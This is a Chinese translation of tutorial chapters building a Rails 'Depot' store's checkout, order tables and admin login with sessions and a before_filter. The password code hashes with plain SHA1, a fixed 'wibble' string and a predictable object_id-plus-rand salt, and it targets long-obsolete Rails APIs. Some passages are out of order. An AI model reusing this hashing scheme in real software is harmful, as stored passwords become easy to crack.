- 我们编写了一个辅助方法，在购物车为空时隐藏它，并使用`.rjs`模板在添加物品时显示它。
- 最后，通过回退到我们在开始 Ajax 之旅之前实现的行为，我们使应用程序在用户浏览器禁用 JavaScript 时也能工作。

需要掌握的关键点是 Ajax 开发的增量式风格。从一个传统的应用程序开始，然后逐一添加 Ajax 功能。Ajax 可能很难调试：通过缓慢地向应用程序添加它，如果事情停止运作，你更容易追踪到发生了什么变化。而且，正如我们所看到的，从一个传统的应用程序开始，使得在同一代码库中支持 Ajax 和非 Ajax 行为变得更容易。

最后，提供一些提示。首先，如果你计划进行大量的 Ajax 开发，你可能需要熟悉你浏览器的 JavaScript 调试工具和 DOM 检查器。《Pragmatic Ajax》[?] 的第 8 章有很多有用的提示。其次，我发现开发时运行两个不同的浏览器很有用（我个人在我的 Mac 上使用 Firefox 和 Safari）。我在一个浏览器中启用 JavaScript，在另一个中禁用。然后，当我添加一些新功能时，我会用两个浏览器都测试一下，以确保无论 JavaScript 处于何种状态，它都能正常工作。

在本章中，我们将看到：

- 用外键链接表
- 使用`belongs_to`和`has_many`
- 基于模型创建表单（`form_for`）
- 链接表单、模型和视图

# 第 10 章

## 任务 E：结账！

让我们盘点一下。到目前为止，我们已经建立了一个基本的商品管理系统，实现了一个商品目录，还有一个看起来非常漂亮的购物车。所以现在我们需要让买家实际购买购物车里的东西。让我们继续实现结账功能。

我们不会在这里做得太过火。目前，我们要做的只是捕获客户的联系信息和付款方式。使用这些信息，我们将构建一个订单存入数据库。在此过程中，我们将更多地了解模型、验证、表单处理和组件。

## 10.1 迭代 E1：捕获订单

一个订单包含一组订单项，以及购买交易的详细信息。我们已经有了订单项的雏形。我们的购物车包含*购物车项*，但我们目前还没有对应的数据库表。我们也没有一个表来存放订单信息。然而，根据第 57 页的图表，结合与客户的简短交流，我们现在可以继续生成 Rails 模型并填充迁移文件来创建相应的表。

首先我们创建两个模型。

```bash
depot> ruby script/generate model order
...
depot> ruby script/generate model line_item
...
```

然后我们填写生成器创建的两个迁移文件。首先，是创建`orders`表的那个。

```ruby
class CreateOrders < ActiveRecord::Migration
```

> // Joe 提问...

**信用卡处理**在哪里？

此时，我们的教程应用将与现实稍微有些偏离。在现实世界中，我们可能希望我们的应用程序处理结账的商业环节。我们甚至可能希望集成信用卡处理功能（可能使用 Payment 模块）* 或 Tobias Luetke 的 ActiveMerchant 库。† 然而，与后端支付处理系统集成需要大量的文书工作和繁琐的手续。这会分散我们对 Rails 本身的注意力，因此我们将暂时搁置这个具体细节。

* http://rubyforge.org/projects/payment

† http://home.leetsoft.com/am/

```ruby
def self.up
  create_table :orders do |t|
    t.column :name, :string
    t.column :address, :text
    t.column :email, :string
    t.column :pay_type, :string, :limit => 10
  end
end

def self.down
  drop_table :orders
end
```

然后，是关于订单项的迁移：

```ruby
### Download depot_p/db/migrate/006_create_line_items.rb

class CreateLineItems < ActiveRecord::Migration
  def self.up
    create_table :line_items do |t|
      t.column :product_id,  :integer, :null => false
      t.column :order_id,    :integer, :null => false
      t.column :quantity,    :integer, :null => false
      t.column :total_price, :integer, :null => false
    end
  end

  execute "alter table line_items
           add constraint fk_line_item_products
           foreign key  (product_id) references products(id)"

  execute "alter table line_items
           add constraint fk_line_item_orders
           foreign key (order_id) references orders(id)"
end

def self.down
  drop_table :line_items
end
end
```

请注意，这个表有两个外键。`line_items`表中的每一行都同时与一个订单和一个产品相关联。不幸的是，Rails 迁移没有提供一种与数据库无关的方式来指定这些外键约束，因此我们不得不执行原生 DDL 语句（在本例中是 MySQL 的语句）。¹

既然我们已经创建了这两个迁移，现在可以运行它们了。

```
depot> rake db:migrate
== CreateOrders: migrating ==========================
-- create_table(:orders)
   -> 0.0066s
== CreateOrders: migrated (0.0096s) ===================

== CreateLineItems: migrating ========================
-- create_table(:line_items)
   -> 0.0072s
-- execute("alter table line_items \n add constraint fk_line_...
   -> 0.0134s
-- execute("alter table line_items \n add constraint fk_line_...
   -> 0.0201s
== CreateLineItems: migrated (0.0500s) ================
```

由于数据库当前版本是 4，运行`db:migrate`任务会应用所有新的迁移。当然，我们也可以在创建单个迁移后分别运行迁移任务来单独应用它们。

### 模型之间的关系

数据库现在知道了订单项、订单和产品之间的关系。但是，Rails 应用程序还不知道。我们需要在模型文件中添加一些声明来指定它们之间的关系。

> ¹许多 Rails 开发人员懒得指定数据库级别的约束，如外键，而是依靠应用程序代码来确保所有内容都正确连接。这可能就是为什么 Rails 迁移不允许你指定约束的原因。然而，当涉及到数据库完整性时，我（Dave）认为一点额外的检查可以避免后期生产系统调试的大量工作。

首先，我们打开`app/models`中新创建的`order.rb`文件，并添加对`has_many()`的调用。

```ruby
class Order < ActiveRecord::Base

  has_many :line_items
end
```

`has_many`指令的含义相当不言自明：一个订单（可能）有许多相关的订单项。它们通过每个订单项中包含对其订单 ID 的引用来与订单关联。

现在，为了完整性，我们应该在我们的`Product`模型中添加一个`has_many`指令。毕竟，每个产品可能都有许多引用它的订单项。


```ruby
class Product < ActiveRecord::Base
  has_many :line_items

  def self.find_products_for_sale
    find(:all, :order => "title")
  end

  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price, :only_integer => true
  validates_uniqueness_of :title
  validates_format_of :image_url,
                     :with    => %r{\.(gif|jpg|png)$}i,
                     :message => "must be a URL for a GIF, JPG, or PNG image"

  protected

  def validate
    errors.add(:price, "should be positive") if price.nil? || price <= 0
  end
end
```

接下来，我们将指定相反方向的链接，从订单项到订单和产品表。为此，我们在`line_item.rb`文件中两次使用`belongs_to()`声明。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :order
  belongs_to :product
end
```

`belongs_to`告诉 Rails，`line_items`表中的行是`orders`和`products`表中行的子记录：除非相应的订单和产品行存在，否则订单项无法存在。有一个简单的方法来记住在哪里放置`belongs_to`声明：如果一个表有外键，相应的模型就应该为每个外键设置一个`belongs_to`。

这些不同的声明究竟有什么作用？基本上，它们为模型对象添加了导航功能。因为我们向`LineItem`添加了`belongs_to`声明，我们现在可以通过名称检索它的订单：

```ruby
li = LineItem.find(...)
puts "This line item was bought by #{li.order.name}"
```

并且由于一个订单被声明为拥有很多订单项，我们可以从订单对象中引用它们（作为一个集合）。

```ruby
order = Order.find(...)
puts "This order has #{order.line_items.size} line items"
```

从第 16.6 节“指定关系”（第 280 页）开始，我们将详细讨论模型间的关系。

### 创建订单捕获表单

现在我们有了表和模型，可以开始结账流程了。首先，我们需要在购物车中添加一个结账按钮。我们会将其链接回我们`store`控制器中的一个`checkout`动作。

```erb
<!-- Download depot_p/app/views/store/_cart.rhtml -->

<div class="cart-title">Your Cart</div>
<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">Total</td>
    <td class="total-cell"><%= format_price(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "Checkout", :action => :checkout %>
<%= button_to "Empty cart", :action => :empty_cart %>
```

我们希望`checkout`动作向用户展示一个表单，提示他们输入`orders`表中的信息：他们的姓名、地址、电子邮件地址和支付类型。这意味着在某个时刻我们将显示一个包含表单的 Rails 模板。这个表单上的输入字段必须链接到 Rails 模型对象中的相应属性，因此我们需要在`checkout`动作中创建一个空的模型对象，以便让这些字段有内容可操作。²（我们还必须找到当前的购物车，因为它在布局中显示。在每个动作开始时查找购物车开始变得乏味；我们稍后会看到如何消除这种重复）。

```ruby
### Download depot_p/app/controllers/store_controller.rb

def checkout
  @cart = find_cart
  if @cart.items.empty?
    redirect_to_index("Your cart is empty")
  else
    @order = Order.new
  end
end
```

请注意我们如何检查确保购物车里有东西。这可以防止人们直接导航到结账选项并创建空订单。

现在来看模板本身。为了捕获用户信息，我们将使用一个表单。与 HTML 表单一样，关键在于将任何初始值填充到表单字段中，然后在用户点击提交按钮时，将这些值提取回你的应用程序。

在控制器中，我们设置`@order`实例变量来引用一个新的订单模型对象。就目前而言，这没什么特别的：因为这是一个新的模型，所有字段都将是空的。然而，考虑一下一般情况。也许我们想编辑一个现有的模型。或者也许用户尝试提交一个有错误的表单，而我们希望再次显示该表单。在所有情况下，我们都希望当表单显示时，模型中任何现有数据都能展示给用户。

然后，当用户点击提交按钮时，我们希望表单中的新数据被提取回控制器中的一个模型对象。

幸运的是，Rails 使这变得相对轻松。它为我们提供了一堆表单辅助方法。这些辅助方法与控制器和模型交互，以实现一个集成的表单处理解决方案。在开始我们的最终表单之前，让我们看一个简单的例子。

```erb
<%= form_for :order, :url => { :action => :save_order } do |form| %>
  <p>
    <label for="order_name">Name:</label>
```

²再次提醒，如果你在跟着做，请记住动作必须出现在控制器中`private`关键字之前。

### 捕获订单详情

现在，让我们在店铺控制器中实现`save_order()`动作。此方法需要完成以下任务：

1. 从表单中获取值，以填充一个新的 Order 模型对象。
2. 将购物车中的商品行项目添加到该订单中。
3. 验证并保存订单。如果保存失败，显示相应的错误信息，并允许用户修正问题。
4. 订单成功保存后，重新显示商品目录页面，并附带一条确认订单已提交的消息。

该方法最终大致如下所示。

```ruby
def save_order
  @cart = find_cart
  @order = Order.new(params[:order])
  @order.add_line_items_from_cart(@cart)

  if @order.save
    session[:cart] = nil
    redirect_to_index("Thank you for your order")
  else
    render :action => :checkout
  end
end
```

在第 3 行，我们创建了一个新的 Order 对象，并使用表单数据对其进行初始化。在这种情况下，我们希望获取所有与订单对象相关的表单数据，因此我们从参数中选择了`:order`哈希（这是我们在`form_for`方法第一个参数中传递的名称）。下一行将此订单添加购物车中已存储的商品——稍后我们将编写实现此功能的实际方法。

接下来，在第 5 行，我们告诉订单对象将自身（及其子项，即行项目）保存到数据库中。在此过程中，订单对象将执行验证（稍后我们会详细说明）。如果保存成功，我们会从会话中删除购物车，为下一次订单做准备，并使用`redirect_to_index()`方法重新显示商品目录页面，并显示一条友好的确认消息。如果保存失败，则重新显示结账表单。

在`save_order`动作中，我们假定订单对象具有一个`add_line_items_from_cart()`方法，那么现在让我们来实现这个方法。

下载`depot_p/app/models/order.rb`

```ruby
def add_line_items_from_cart(cart)
  cart.items.each do |item|
    li = LineItem.from_cart_item(item)
    line_items << li
  end
end
```

注意，我们不必对各种外键字段做任何特殊处理，例如设置订单明细行中的`order_id`列以引用新创建的订单行。Rails 通过使用我们添加到`Order`和`LineItem`模型中的`has_many()`和`belongs_to()`声明来帮我们完成这项“编织”工作。将每个新订单明细项附加到第 4 行的`line_items`集合中，就将键管理的责任交给了 Rails。

Order 模型中的这个方法又依赖于订单明细模型中的一个简单辅助方法，该方法根据购物车项构建一个新的订单明细项。

下载`depot_p/app/models/line_item.rb`

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :order
  belongs_to :product

  def self.from_cart_item(cart_item)
    li = self.new
    li.product      = cart_item.product
    li.quantity     = cart_item.quantity
    li.total_price  = cart_item.price
    li
  end
end
```

那么，作为这一切的首次测试，在结账页面上不填写任何表单字段就点击“下订单”按钮。你应该会看到结账页面重新显示，并伴随一些错误信息，抱怨字段为空，如图 10.2 所示。

如果我们填写一些数据，如图 10.3 顶部所示，然后点击“结账”，我们应该会被带回目录页，如图底部所示。但它起作用了吗？让我们查看数据库。

```bash
depot> mysql depot_development
```

### 最后一个 Ajax 改动

在我们接受订单后，会重定向到索引页面，显示友好的提示信息“感谢您的订单。”如果用户继续购物，并且他们的浏览器启用了 JavaScript，我们会在不重新绘制主页面的情况下填充侧边栏中的购物车。这意味着提示信息会持续显示。我们更希望在将第一件商品添加到购物车后它就消失（就像浏览器禁用 JavaScript 时那样）。幸运的是，修复很简单：当我们向购物车添加商品时，只需隐藏包含提示信息的`<div>`即可。不过，事情通常没那么简单。

首次尝试隐藏提示信息可能涉及向`add_to_cart.rjs`添加以下代码。

```ruby
page[:notice].hide
### 其余部分保持不变...
```

然而，这并不奏效。如果我们是首次访问商店，提示信息为空，因此 id 为`notice`的`<div>`不会显示。并且，如果不存在 id 为 notice 的 div，rjs 模板生成的 JavaScript 尝试隐藏它时会出错，模板的其余部分也不会执行。结果是，你永远看不到侧边栏中的购物车更新。

解决方案是一个小技巧。我们只希望在 notice`<div>`存在时才执行`.hide`，但 rjs 没有提供生成测试 div 是否存在的 JavaScript 的能力。不过，它确实允许我们遍历页面上匹配特定 CSS 选择器模式的元素。因此，让我们遍历所有 id 为 notice 的`<div>`标签。循环会找到一个，我们就隐藏它；或者一个都找不到，这样就不会调用 hide 方法。

下载`depot_r/app/views/store/add_to_cart.rjs`

```ruby
page.select('div#notice').each { |div| div.hide }

page[:cart].replace_html :partial => 'cart', :object => @cart

page[:cart].visual_effect :blind_down if @cart.total_items == 1

page[:current_item].visual_effect :highlight,
                                   :startcolor => "#88ff88",
                                   :endcolor => "#114411"
```

客户很满意。我们已经实现了商品维护、基本目录、购物车，现在还有一个简单的订单系统。显然，我们还需要编写某种订单履行应用程序，但这可以留到新的迭代周期。（而那个迭代周期在本书中我们将跳过：因为它没有太多关于 Rails 的新内容可讲。）

### 我们刚刚做了什么

在相当短的时间内，我们完成了以下工作。

- 我们添加了订单和订单明细表（以及相应的模型）并将它们链接起来。
- 我们创建了一个表单来捕获订单的详细信息，并将其链接到 Order 模型。
- 我们添加了验证，并使用辅助方法向用户显示错误信息。

在本章中，我们将看到：

- 向模型添加虚拟属性
- 使用更多验证
- 没有底层模型的表单
- 单动作表单处理
- 会话中的身份验证
- `script/console`
- 使用数据库事务

## 任务 F：管理后台

我们有了一个满意的客户——在很短的时间内，我们共同构建了一个她可以开始向用户展示的基本购物车。她还想看到一个改动。目前，任何人都可以访问管理功能。她希望我们添加一个基本的用户管理系统，强制你登录才能进入网站的管理部分。

我们很乐意这样做，因为它让我们有机会研究虚拟属性和过滤器，并且让我们能够稍微整理一下应用程序。

与客户交谈后，似乎我们的应用程序不需要特别复杂的安全系统。我们只需要根据用户名和密码识别出一定数量的人。一旦被识别，这些人就可以使用所有的管理功能。

### 11.1 迭代 F1：添加用户

让我们从创建一个模型和数据库表开始，用于存储我们管理员的用户名和哈希密码。我们不会以明文存储密码，而是将它们通过 SHA1 摘要处理，生成一个 160 位的哈希值。我们通过摘要处理用户提供的密码值，并将该哈希值与数据库中的值进行比较来检查用户密码。通过给密码加盐，这个系统变得更加安全，盐值是通过将密码与伪随机字符串组合来创建哈希时使用的不同种子。[^1]

```bash
depot> ruby script/generate model user
```

> [^1]: 关于如何执行此操作的另一个示例，请参见 Chad Fowler 的《Rails Recipes》[Fow06] 中的身份验证部分。

让我们创建迁移并将其应用到数据库。我们的用户表包含用于存储名称、哈希密码和盐值的列。

```ruby
class CreateUsers < ActiveRecord::Migration
  def self.up
    create_table :users do |t|
      t.column :name,              :string
      t.column :hashed_password,   :string
      t.column :salt,              :string
    end
  end

  def self.down
    drop_table :users
  end
end
```

像往常一样运行迁移。

```bash
depot> rake db:migrate
```

现在我们需要充实用户模型。事实证明这相当复杂，因为它必须从应用程序的角度处理密码的明文版本，但在数据库中维护盐值和哈希密码。让我们分部分查看模型。首先是验证。

```ruby
class User < ActiveRecord::Base
  validates_presence_of         :name,
                                :password,
                                :password_confirmation

  validates_uniqueness_of       :name

  validates_length_of           :password,
                                :minimum => 5,
                                :message => "should be at least 5 characters long"

  attr_accessor :password_confirmation
  validates_confirmation_of :password

  # ...
end
```

对于这样一个简单的模型来说，这已经相当多的验证了。我们检查名称和密码是否都存在，以及名称是否唯一（即，数据库中不能有两个用户拥有相同的名称）。我们...

---


```
Welcome to the MySQL monitor.  Commands end with ; or \g.

mysql> select * from orders;
+----+--------------+-------------+------------------------------+----------+
| id | name         | address     | email                        | pay_type |
+----+--------------+-------------+------------------------------+----------+
|  1 | Dave Thomas  | 123 Main St | customer@pragprog.com        | check    |
+----+--------------+-------------+------------------------------+----------+
1 row in set (0.07 sec)

mysql> select * from line_items;
+----+------------+----------+----------+-------------+
| id | product_id | order_id | quantity | total_price |
+----+------------+----------+----------+-------------+
|  1 |          1 |        1 |        1 |        2995 |
+----+------------+----------+----------+-------------+
1 row in set (0.17 sec)

mysql>
```

[^1]: 如果你在家跟着做，并且得到消息 *No action responded to save_order*，可能是因为你在控制器中 `private` 声明之后添加了 `save_order()` 方法。私有方法不能作为动作被调用。

我们会检查密码长度是否至少为5个字符，如果不符合则输出合理的错误信息。最后，还有那个神秘的`validates_confirmation_of`声明。

你见过那些提示你输入密码，然后让你在另一个字段中重新输入以便验证输入是否正确的表单吗？Rails可以自动验证两个密码是否匹配。我们稍后会看到它是如何工作的。目前，我们只需要知道需要两个密码字段：一个用于实际密码，另一个用于确认密码。

验证问题解决后，我们现在可以看看如何处理密码。首先让我们看看如何创建哈希密码。技巧是创建一个唯一的盐值，将其与明文密码组合成一个字符串，然后对结果运行SHA1摘要，返回一个40个字符的十六进制数字字符串。我们将把它写成一个私有类方法。（我们还需要记住在文件中`require 'digest/sha1'`。请参阅下一页开始的清单以了解其位置。）

```ruby
private

    def self.encrypted_password(password, salt)
        string_to_hash = password + "wibble" + salt
        Digest::SHA1.hexdigest(string_to_hash)
    end
```

我们将通过连接一个随机数和用户对象的对象ID来创建盐字符串。盐值是什么并不重要，只要它是不可预测的（例如，使用时间作为盐值比随机字符串的熵值低）。我们将这个新盐值存储到模型对象的`salt`属性中。同样，这是一个私有方法，所以将其放在源代码中`private`关键字的下方。

```ruby
def create_new_salt
    self.salt = self.object_id.to_s + rand.to_s
end
```

现在我们需要安排一下，使得每当新的明文密码存储到用户对象时，我们自动创建一个哈希版本（它将被存储在数据库中）。我们将通过使明文密码成为模型的虚拟属性来实现这一点——它对我们的应用程序来说看起来像一个属性，但不会持久化到数据库中。

如果不是因为需要创建哈希版本，我们可以简单地使用Ruby的`attr_accessor`声明来实现这一点。

```ruby
attr_accessor :password
```

在幕后，`attr_accessor`生成两个访问器方法：一个名为`password`的读取器和一个名为`password=`的写入器。写入器方法名以等号结尾这一事实意味着它可以被赋值。因此，与其使用标准访问器，我们不如简单地实现我们自己的，让写入器也创建一个新的盐并设置哈希密码。

```ruby
### depot_p/app/models/user.rb

def password
  @password
end

def password=(pwd)
  @password = pwd
  create_new_salt
  self.hashed_password = User.encrypted_password(self.password, self.salt)
end
```

最后一件事。让我们编写一个方法，如果调用者提供正确的用户名和密码，则返回一个用户对象。因为传入的密码是明文，我们必须使用名称作为键读取用户记录，然后使用该记录中的盐值再次构造哈希密码。然后，如果哈希密码匹配，我们返回用户对象。我们可以使用此方法来验证用户。

```ruby
### depot_p/app/models/user.rb

def self.authenticate(name, password)
  user = self.find_by_name(name)
  if user
    expected_password = encrypted_password(password, user.salt)
    if user.hashed_password != expected_password
      user = nil
    end
  end
  user
end
```

用户模型包含相当多的代码，但它展示了模型如何承载相当多的业务逻辑。在继续控制器之前，让我们回顾整个模型。

```ruby
### depot_p/app/models/user.rb

require 'digest/sha1'

class User < ActiveRecord::Base
  validates_presence_of         :name,
                               :password,
                               :password_confirmation

  validates_uniqueness_of       :name

  validates_length_of           :password,
                               :minimum => 5,
                               :message => "should be at least 5 characters long"

  attr_accessor :password_confirmation
  validates_confirmation_of :password

  # ...

  def self.authenticate(name, password)
    user = self.find_by_name(name)
    if user
      expected_password = encrypted_password(password, user.salt)
      if user.hashed_password != expected_password
        user = nil
      end
    end
    user
  end

  # 'password' is a virtual attribute
  def password
    @password
  end

  def password=(pwd)
    @password = pwd
    create_new_salt
    self.hashed_password = User.encrypted_password(self.password, self.salt)
  end

  private

  def self.encrypted_password(password, salt)
    string_to_hash = password + "wibble" + salt
    Digest::SHA1.hexdigest(string_to_hash)
  end


  def create_new_salt
    self.salt = self.object_id.to_s + rand.to_s
  end
end
```

### 管理我们的用户

现在我们已经设置好了模型和表，我们需要某种方式来管理这些用户。事实上，我们很可能会添加许多与用户相关的功能：登录、列出、删除、添加等等。为了保持整洁，我们将把这些操作放入它们自己的控制器中。

此时，我们可以调用我们在处理产品维护时使用的相同Rails脚手架生成器，但这次让我们手动完成。这样，我们将尝试一些新技术。首先，我们将生成我们的控制器（Login）以及每个所需操作的方法。

```
depot> ruby script/generate controller Login add_user login logout \
                                            delete_user list_users
exists  app/controllers/
exists  app/helpers/
create  app/views/login
exists  test/functional/
create  app/controllers/login_controller.rb
create  test/functional/login_controller_test.rb
create  app/helpers/login_helper.rb
create  app/views/login/add_user.rhtml
create  app/views/login/login.rhtml
create  app/views/login/logout.rhtml
create  app/views/login/delete_user.rhtml
create  app/views/login/list_users.rhtml
```

我们知道如何在数据库表中创建新行：我们创建一个操作，在视图中放置一个表单，然后让该操作调用该表单。表单然后回调某种*保存*操作，该操作调用模型将数据保存起来。但为了让本章更有趣一点，让我们在控制器中使用稍微不同的风格来创建用户。

在我们用于维护产品表的自动生成脚手架代码中，*edit*操作设置了一个表单来编辑产品数据。当用户完成表单时，它被路由回控制器中的一个单独的*save*操作。两个独立的方法协同工作来完成任务。我们在捕获客户订单时使用了相同的技术。

相比之下，我们的用户创建代码将只使用一个操作，*add_user*。在此方法内部，我们将检测是被调用来显示初始（空）表单，还是被调用来保存已完成表单中的数据。我们将通过查看传入请求的HTTP方法来实现这一点。如果它来自`<a href="...">`链接，我们将其视为GET请求。如果它包含表单数据（当用户单击提交按钮时将会包含），我们将看到POST。

在Rails控制器内部，请求信息在`request`属性中可用。我们可以使用诸如`get?()`和`post?()`之类的方法来检查请求类型。以下是文件`login_controller.rb`中`add_user`操作的代码。（注意，我们将admin布局添加到了这个新控制器中——让我们使所有管理功能的屏幕布局保持一致。）

```ruby
class LoginController < ApplicationController
  layout "admin"
  def add_user
    @user = User.new(params[:user])
    if request.post? and @user.save
      flash[:notice] = "User #{@user.name} created"
      @user = User.new
    end
  end
end

### ...
```

首先，我们创建一个新的`User`对象。如果参数数组中存在表单数据，它将用于初始化该对象。如果不存在数据，则将创建一个空的用户对象。

如果传入的请求是GET，我们就完成了该操作。它会执行到末尾，并渲染与`add_user`关联的模板（我们尚未编写该模板）。

如果请求是POST，我们看到的是用户提交的内容，因此我们尝试保存数据。如果成功，我们将清除用户对象并重新显示表单（在flash中显示一条友好的消息）。如果保存失败，我们也会执行到操作的底部。这次，我们在`@user`对象中既有（不好的）数据，也有对象`errors`结构中验证失败的原因。这意味着用户将有机会更正错误。

为了让此操作发挥任何有用的作用，我们需要为它创建一个视图。这是`app/views/login`中的模板`add_user.rhtml`。注意，`form_for`方法不需要参数，因为它默认为将表单提交回呈现模板的操作和控制器。

```html
<div class="depot-form">
```

<%= error_messages_for 'user' %>

<fieldset>

  <legend>输入用户详情</legend>

  <% form_for :user do |form| %>

    <p>

      <label for="user_name">姓名：</label>

      <%= form.text_field :name, :size => 40 %>

    </p>

    <p>

      <label for="user_password">密码：</label>

      <%= form.password_field :password, :size => 40 %>

    </p>

    <p>

      <label for="user_password_confirmation">确认：</label>

      <%= form.password_field :password_confirmation, :size => 40 %>

    </p>

    <%= submit_tag "添加用户", :class => "submit" %>

  <% end %>

</fieldset>

</div>

就这样：我们现在可以向数据库中添加用户了。让我们试一试。访问 http://localhost:3000/login/add_user，你应该会看到这个设计精美的页面示例。



点击[添加用户]后，页面会重新显示，并带有一条令人愉快的提示信息。如果我们查看数据库，你会看到我们已经存储了用户详情。（当然，你行中的值会有所不同，因为盐值实际上是随机的。）

```
mysql> select * from users;
+----+------+------------------------------------------+-----------------+
| id | name | hashed_password                          | salt            |
+----+------+------------------------------------------+-----------------+
|  1 | dave | 2890ed2e4facd4...56e54606751ff | 32920.319242... |
+----+------+------------------------------------------+-----------------+
```

## 11.2 迭代 F2：登录

为我们的商店管理员添加登录支持意味着什么？

- 我们需要提供一个表单，允许他们输入用户名和密码。

- 一旦他们登录，我们需要以某种方式记录这一事实，以便在其会话的其余时间（或直到他们登出）使用。

- 我们需要限制对应用程序管理部分的访问，只允许登录的用户管理商店。

我们将在登录控制器中需要一个 *login* 动作，并且它需要将会话中的某些内容记录下来，以表示管理员已登录。让我们将其存储为 `:user_id` 键对应的 User 对象 ID。登录代码如下所示。

```
Download depot_p/app/controllers/login_controller.rb

def login
  session[:user_id] = nil
  if request.post?
    user = User.authenticate(params[:name], params[:password])
    if user
      session[:user_id] = user.id
      redirect_to(:action => "index")
    else
      flash[:notice] = "Invalid user/password combination"
    end
  end
end
```

这使用了与 `add_user()` 方法相同的技巧，在同一个方法中处理初始请求和响应。但它也做了一些新的事情：它使用了一个与模型对象没有直接关联的表单。要了解其工作原理，让我们看看登录动作的模板。


```text
Download depot_p/app/views/login/login.rhtml
```

```erb
<div class="depot-form">
<fieldset>
    <legend>请登录</legend>

    <%= start_form_tag %>
        <p>
            <label for="name">姓名：</label>
            <%= text_field_tag :name, params[:name] %>
        </p>

        <p>
            <label for="password">密码：</label>
            <%= password_field_tag :password, params[:password] %>
        </p>

        <p>
            <%= submit_tag "登录" %>
        </p>
    <%= end_form_tag %>
</fieldset>
</div>
```

这个表单与我们之前见过的不同。它没有使用`form_for`，而是使用了`start_form_tag`，后者只是构建一个常规的 HTML `<form>`。在该表单内部，它使用了`text_field_tag`和`password_field_tag`，这两个辅助方法用于创建 HTML `<input>` 标签。每个辅助方法接受两个参数。第一个是字段的名称，第二个是填充字段的值。这种表单样式允许我们将`params`结构中的值直接与表单字段关联起来——不需要模型对象。在我们的例子中，我们选择直接在表单中使用`params`对象。另一种方法是让控制器设置实例变量。

这种表单风格的流程如图 11.1（在下一页）所示。请注意表单字段的值是如何在控制器和视图之间通过`params`哈希进行通信的：视图从`params[:name]`获取要显示在字段中的值，当用户提交表单时，新的字段值通过相同的方式提供给控制器。

如果用户成功登录，我们将用户记录的 ID 存储在会话数据中。我们将使用该值在会话中的存在作为标志，表明管理员用户已登录。

最后，是时候添加索引页面了，这是管理员登录后看到的第一件事。让我们让它有用——我们将让它显示商店中的订单总数。在目录`app/views/login`中的文件`index.rhtml`中创建模板。（此模板使用了`pluralize()`辅助方法，它在本例中根据其第一个参数的基数生成字符串 "order" 或 "orders"。）



图 11.1：参数在控制器、模板和浏览器之间流动

```text
Download depot_p/app/views/login/index.rhtml
```

```erb
<h1>欢迎</h1>

现在是 <%= Time.now %>。
我们有 <%= pluralize(@total_orders, "order") %>。
```

`index()`动作设置计数。

```text
Download depot_p/app/controllers/login_controller.rb
```

```ruby
def index
    @total_orders = Order.count
end
```

现在我们可以体验作为管理员登录的喜悦了。



我们向客户展示了我们的进展，但她指出我们仍然没有控制对管理页面的访问（毕竟，这是本练习的重点）。

## 11.3 迭代 F3：限制访问

我们希望阻止没有管理员登录的人访问我们网站的管理页面。事实证明，使用 Rails 的过滤器功能很容易实现。

Rails 过滤器允许你拦截对动作方法的调用，在它们被调用之前、返回之后或两者都添加你自己的处理。在我们的例子中，我们将使用一个前置过滤器来拦截对管理员控制器中所有动作的调用。拦截器可以检查`session[:user_id]`。如果已设置，并且它对应于数据库中的一个用户，则应用程序知道管理员已登录，调用可以继续。如果未设置，拦截器可以发出重定向，在本例中是重定向到我们的登录页面。

我们应该把这个方法放在哪里？它可以直接放在管理员控制器中，但出于即将明显的原因，让我们将其放在`ApplicationController`中，这是我们所有控制器的父类。它位于目录`app/controllers`中的文件`application.rb`中。另请注意，我们需要限制对此方法的访问，因为`application.rb`中的方法在我们所有的控制器中都作为实例方法出现。这里的任何公共方法都会作为动作暴露给最终用户。

```ruby
class ApplicationController < ActionController::Base

  private

def authorize
  unless User.find_by_id(session[:user_id])
    flash[:notice] = "Please log in"
    redirect_to(:controller => "login", :action => "login")
  end
end
```

只需添加一行代码，就可以在管理控制器中的任何动作之前调用此授权方法。

```ruby
class AdminController < ApplicationController

  before_filter :authorize

  # ....
```

我们需要对登录控制器进行类似的更改。然而在这里，我们希望即使用户未登录也允许调用登录动作，因此我们将其排除在检查之外。

```ruby
class LoginController < ApplicationController

before_filter :authorize, :except => :login
### . .
```

如果你在跟着做，请删除你的会话信息（因为其中我们已经登录了）。

```bash
